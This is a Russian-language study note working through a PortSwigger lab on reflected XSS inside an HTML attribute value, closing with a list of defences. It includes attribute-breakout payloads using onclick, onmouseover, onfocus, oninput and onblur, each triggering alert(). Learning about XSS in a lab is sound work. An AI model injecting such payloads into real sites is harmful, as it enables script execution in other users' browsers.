

## XSS в атрибутах тегов HTML
лаба https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded

задание:
вызвать алерт через поиск по странице

------
запрос в поиске 7777 отражается в html в двух местах
в 'заголовке' 
в "инпуте поиска"


```html
                       <h1>0 search results for '7777'</h1>
                        <hr>
                    </section>
                    <section class=search>
                        <form action=/ method=GET>
                            <input type=text placeholder='Search the blog...' name=search value="7777">
                            <button type=submit class=button>Search</button>
```
-------

пейлоад
`<script>alert(777777)</script>`
ответ
```html
                       <h1>0 search results for '&lt;script&gt;alert(777777)&lt;/script&gt;'</h1>
                        <hr>
                    </section>
                    <section class=search>
                        <form action=/ method=GET>
                            <input type=text placeholder='Search the blog...' name=search value="&lt;script&gt;alert(777777)&lt;/script&gt;">
                            <button type=submit class=button>Search</button>
```

символы <  &lt;  >  &gt; кодируются кодировкой html

поэтому новый тег внедрить не получается!

но есть второе место где вставляется в атрибут мой поиск запрос 7777
`<input type=text placeholder='Search the blog...' name=search value="7777">`

то есть я нахожусь в месте где может выполняться код js , нужно лишь выйти за кавычки

например пейлоад   onresize="alert("7777")"
ответ `value="onresize="alert("7777")"">`

после value появилась кавычка от сервера и в конце 


пейлоад
" onresize="alert(1)
ответ
```html
                        <form action=/ method=GET>
                            <input type=text placeholder='Search the blog...' name=search value="" onresize="alert(1)">
                            <button type=submit class=button>Search
```

не работает пейлоад...

оказывается, онресайз тригерился бы при изменении размера самого инпута - но он не меняется при изменении размера окна!
и ваще, этот онресайз принадлежит только window окну браузера и обьекту documet 
а мой инпут - статичный элемент ваще


для точечных элементов можно использовать:
```htnl
onclick              при клике
onmouseover         при наведении
onfocus                 фокус
oninput               при вводе
onblur            потеря пофуса 
```

" onclick="alert(1)      работает!
" onmouseover="alert(1)    работает!
" onfocus="alert(1)       работает
" oninput="alert(1)       работает
" onblur="alert(1)     работает, когда нажал на любое место вне инпута..


способы защиты от XSS в контексте атрибутов тегов:

1. кодировать данные в атрибутах тегов, превращая кавычки и пробелы в HTML-сущности
   
2. использовать контекстно-зависимое экранирование, применяя специальные фнкции именно для атрибутов
   
3. внедрять Content Security Policy с запретом на инлайн-скрипты и обработчики событий
   
4. применять современные фреймворки с автоматическим экранированием данных по умолчанию
   
5. валидировать входные данные по белому списку, разрешая только безопасные символы

